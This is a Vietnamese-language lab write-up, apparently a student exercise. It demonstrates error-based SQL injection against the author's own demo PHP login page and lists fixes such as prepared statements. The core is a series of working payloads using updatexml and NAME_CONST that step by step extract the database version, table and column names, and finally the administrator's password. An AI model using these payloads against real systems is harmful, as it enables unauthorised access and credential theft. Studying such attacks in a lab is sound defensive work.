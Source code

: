 # Link demo : https://github.com/l3mnt2010/task2_KCSC/tree/main/demo/errorBase
# Cách khắc phục :
Có thể khắc phục bằng cách tham số hóa đầu vào của thâm số người dùng truyền vào bằng một số cách như là:
-  $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
- Hoặc làm sạch đầu vào   $cleaned_username = mysqli_real_escape_string($conn, $username);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.

Khi em vào giao diện sẽ như thế này


![Alt text](./imagesBooleanBase/image-20.png)

- Đây là đoạn code dính lỗi sqli:

![Alt text](./imagesErrorBase/image-21.png)

- Em thử dùng lỗi error base để kiểm tra version của data base: em sử dụng payload : 
            username=aaa&password=hih'+OR+(SELECT+*+FROM+(SELECT+NAME_CONST(version(),1),NAME_CONST(version(),1))+as+x)--+-&login=

+ Em nhận được kết quả trả ra là
![Alt text](./imagesErrorBase/image-1.png)

- Một cách khác nữa là em dùng payload :
            username=aaa&password=hih'and+updatexml(null,concat(0x0a,version()),null)--+-&login

+ Em nhận được kết quả trả ra là :
![Alt text](./imagesErrorBase/image-2.png)

Và version của database là : 10.4.32-MariaDB

- Em tiếp tục sử dụng payload: username=aaa&password=hih'and+updatexml(null,concat(0x0a,version()),null)--+-&login=
![Alt text](./imagesErrorBase/image-3.png)
+ Em nhận được tên database là task2_kcsc:


- Em có thể thấy được là kết quả trả ra lỗi của database task2_kcsc bảng users khi em dùng payload:
        'admi'+and+updatexml(null,concat(0x0a, 
        (select+table_name+from+information_schema.tables+where+table_schema%3ddatabase()+LIMIT+1,1)),null)--

![Alt text](./imagesErrorBase/image-4.png)
- Nếu LIMIT 0,1 thì em có thêm thông tin tên bảng là products nữa ạ:
![Alt text](./imagesErrorBase/image-5.png)
- Mục đích chính của em là tìm mật khẩu của quản trị viên nên em tiếp tục tìm các cột khác trong bảng users
Payload : 'admi'+and+updatexml(null,concat(0x0a,(select+column_name+from+information_schema.columns+where+table_name='users'+limit+0,1)),null)--

Với LIMIT 0,1 em nhận được cột
'admi'+and+updatexml(null,concat(0x0a,(select+column_name+from+information_schema.columns+where+table_name='users'+limit+0,1)),null)--

Cột này chưa phải thông tin em cần
![Alt text](./imagesErrorBase/image-6.png)
em tiêp tục tăng giá trị lên 1 2 3 4 5 và lần lượt nhận tên các cột

+TOTAL CONNECTION
![Alt text](./imagesErrorBase/image-7.png)
+ USER
![Alt text](./imagesErrorBase/image-8.png)
+ id
![Alt text](image-9.png)
đây là tên id của người dùng 
+ password
![Alt text](./imagesErrorBase/image-10.png)
+ username
![Alt text](./imagesErrorBase/image-11.png)

- Sau đó em dùng payload: 'admi'+and+updatexml(null,concat(0x0a,(select+username+from+users+limit+0,1)),null)--
    
nhận được tên admin là administrator
![Alt text](./imagesErrorBase/image-12.png)
- cuối cùng em sẽ lấy mật khẩu administrator
Payload : 'admi'+and+updatexml(null,concat(0x0a,(select+password+from+users+where+username='administrator'+limit+0,1)),null)--
Và kết quả :
![Alt text](./imagesErrorBase/image-13.png)

-> Vậy là em đã nhận được mật khẩu là hihi123


